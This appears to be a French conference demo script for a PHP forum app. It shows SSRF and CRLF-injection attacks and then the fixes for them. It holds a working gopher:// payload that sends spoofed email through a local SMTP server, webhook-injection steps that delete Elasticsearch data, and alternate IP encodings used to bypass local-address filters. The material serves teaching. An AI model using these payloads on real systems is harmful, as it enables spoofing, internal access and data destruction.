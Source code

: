     Démo FORUM PHP


    .
    QUIT

Version urlencode (attention utiliser rawurlencode):
    HELO%20localhost%0AMAIL%20FROM%3A%3Cxavier%40ccmbenchmark.com%3E%0ARCPT%20TO%3A%3Cxavier.leune%40gmail.com%3E%0ADATA%0AFrom%3A%20%5BHacker%5D%20%3Cxavier%40ccmbenchmark.com%3E%0ATo%3A%20%3Cxavier.leune%40gmail.com%3E%0ADate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%0ASubject%3A%20Ah%20Ah%20AH%0A%0AD%C3%A9mo%20FORUM%20PHP%0A%0A%0A.%0AQUIT%0A

Avec le protocole:
    gopher://127.0.0.1:25/xHELO%20localhost%0AMAIL%20FROM%3A%3Cxavier%40ccmbenchmark.com%3E%0ARCPT%20TO%3A%3Cxavier.leune%40gmail.com%3E%0ADATA%0AFrom%3A%20%5BHacker%5D%20%3Cxavier%40ccmbenchmark.com%3E%0ATo%3A%20%3Cxavier.leune%40gmail.com%3E%0ADate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%0ASubject%3A%20Ah%20Ah%20AH%0A%0AD%C3%A9mo%20FORUM%20PHP%0A%0A%0A.%0AQUIT%0A

### Exploitation d'injection CRLF dans les headers CURL

Démonstration générale:

1. Démarrer un serveur netcat sur le port 9002: `nc -l 9002`
2. Ajouter un webhook avec token basique qui pointe vers 127.0.0.1:9002
3. Ajouter un nouveau lien et regarder la sortie sur netcat
4. Supprimer le premier webhook, enregistrer le nouveau token grace à la
sortie de la commande `vagrant@victim:/var/www/demo$ php create-webhook-injection.php http://127.0.0.1:9200/forumphp/_delete_by_query send-to-webhook.txt`
5. Constater le nouveau webhook injecté
6. Ajouter un nouveau lien. Tout semble ok sur la page de destination.
7. Raffraichir la page: Les liens ont disparu.
8. Aller voir la console de sortie de sf sur le post pour vérifier sortie.


### Première sécurisation

1. Ajout d'une vérification sur le scheme: on autorise uniquement http ou https. CF UrlCrawler2
2. On voit qu'on ne peut plus envoyer de mail à l'aide du protocole gopher ni lire de fichier

### Seconde sécurisation

1. On ajoute une vérification sur le domaine: on vérifie qu'il ne s'agit
pas d'une ip locale

Exemple d'écritures de cette ip: 10.1.1.1

* 266.257.257.257
* 167837953
* 4462805249
* 0xa.0x1.0x1.0x1
* 0x0a010101
* [::0a01:0101]

Nouvel essai d'accès à une url locale.

### Premier bypass: redirection
